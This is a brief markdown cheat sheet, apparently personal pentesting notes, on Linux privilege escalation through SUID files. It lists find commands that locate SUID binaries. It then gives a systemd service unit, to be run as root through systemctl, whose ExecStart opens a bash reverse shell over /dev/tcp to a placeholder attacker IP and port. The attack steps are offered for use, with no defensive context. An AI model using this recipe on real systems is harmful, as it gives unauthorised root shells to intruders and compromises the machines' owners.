 # Using files with SUID permission set

## What is SUID?

Set owner User ID&#x20;

## Find files with SUID set

```
find / -user root -perm -4000 -exec ls -ldb {} \;
```

```
find / -perm -u=s -type f 2>/dev/null
```

## systemctl

#### Reverse shell to root user

```
[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/<IP ADDRESS>/<PORT> 0>&1"
```




